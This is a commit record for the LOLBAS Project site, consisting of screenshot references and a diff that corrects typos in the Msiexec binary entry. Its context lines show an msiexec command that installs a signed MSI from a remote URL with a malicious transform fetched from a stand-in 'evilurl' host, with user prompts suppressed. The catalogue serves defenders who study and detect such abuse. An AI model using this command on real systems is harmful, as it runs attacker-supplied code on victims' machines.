

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Msiexec.md, in a window 1280 px wide and 900 px high, scrolled down 1781 px. Shown: the top 882 px of the window, without its empty margins (191-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Applying update LOLBAS-Project/LOLBAS@5d7ec48f4f86c1430a26292471efc4505e553abf

```diff
--- a/_lolbas/Binaries/Msiexec.md
+++ b/_lolbas/Binaries/Msiexec.md
@@ -37,12 +37,12 @@ Commands:
     Tags:
       - Execute: DLL
   - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
-    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a Transformfile will be used, which can contains malicious code or binaries. The /qb will skip user input.
-    Usecase: Install trusted and signed msi file, with additional attack code as Treansorm file, from remote server
+    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a transformation file will be used, which can contains malicious code or binaries. The /qb will skip user input.
+    Usecase: Install trusted and signed msi file, with additional attack code as transformation file, from a remote server
     Category: Execute
     Privileges: User
     MitreID: T1218.007
-    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\msiexec.exe
   - Path: C:\Windows\SysWOW64\msiexec.exe
```
